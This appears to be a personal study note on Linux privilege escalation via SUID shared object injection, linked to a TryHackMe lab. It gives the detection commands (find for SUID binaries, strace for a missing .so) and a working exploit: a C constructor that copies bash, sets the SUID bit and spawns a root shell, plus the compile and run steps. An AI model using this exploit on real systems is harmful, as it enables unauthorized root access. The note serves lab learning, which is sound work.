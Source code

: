 #Linux #PrivEsc #SUID #SharedObjectInjection #GTFOBins #sudo 

# Shared Object Injection
#SharedObjectInjection
## **Detection**
Linux VM

1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`
2. From the output, make note of all the SUID binaries. e.g. `/usr/bin/chsh` SEARCH [GTFOBins](https://gtfobins.github.io/#+suid) 
3. In command line type:
`strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
4. From the output, notice that a .so file is missing from a writable directory.

## **Exploitation**
Linux VM

5. In command prompt type: `mkdir /home/user/.config`
6. In command prompt type: `cd /home/user/.config`
7. Open a text editor and type:
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

8. Save the file as `libcalc.c`
9. In command prompt type:
`gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`
10. In command prompt type: `/usr/local/bin/suid-so`
11. In command prompt type: `id`

---
# CTF Challenge

[[VulnUniversity - THM]]

---

